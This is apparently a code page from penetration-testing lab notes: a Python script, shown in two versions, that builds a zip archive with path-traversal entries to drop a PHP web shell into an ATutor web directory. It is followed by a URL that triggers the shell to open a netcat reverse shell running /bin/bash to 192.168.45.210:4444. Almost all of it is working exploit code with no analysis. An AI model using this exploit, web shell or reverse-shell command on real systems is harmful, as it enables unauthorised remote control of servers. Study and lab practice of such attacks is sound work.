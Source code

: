 def _build_zip():
    #f = StringIO()
    f = io.BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    #z.writestr('poc/poc.txt', str.encode('offsec'))
    #z.writestr('../../../../../tmp/poc/poc.txt', str.encode('offsec'))
    #z.writestr('../../../../../var/www/html/ATutor/mods/poc/poc.txt', str.encode('offsec'))
    z.writestr('../../../../../var/www/html/ATutor/mods/poc/poc.phtml',  str.encode('<?php phpinfo(); ?>'))
    z.writestr('shell.php.txt', str.encode('<?php system($_GET[\'cmd\']); ?>'))
    #z.writestr('imsmanifest.xml', str.encode('<validTag></validTag>'))
    z.writestr('imsmanifest.xml', str.encode('invalid xml!'))
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

_build_zip()
```

```
#!/usr/bin/python
import zipfile
import io
#from io import StringIO

def _build_zip():
    #f = StringIO()
    f = io.BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    #z.writestr('poc/poc.txt', str.encode('offsec'))
    #z.writestr('../../../../../tmp/poc/poc.txt', str.encode('offsec'))
    #z.writestr('../../../../../var/www/html/ATutor/mods/poc/poc.txt', str.encode('offsec'))
    z.writestr('../../../../../var/www/html/ATutor/mods/poc/poc.phtml',  str.encode('<?php phpinfo(); ?>'))
    z.writestr('../../../../../var/www/html/ATutor/mods/poc/shell.phtml', str.encode('<?php system($_GET[\'cmd\']); ?>'))
    #z.writestr('imsmanifest.xml', str.encode('<validTag></validTag>'))
    z.writestr('imsmanifest.xml', str.encode('invalid xml!'))
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

_build_zip()
```

```
http://atutor/ATutor/mods/poc/shell.phtml?cmd=`nc%20-nv%20192.168.45.210%204444%20-e%20/bin/bash`
```
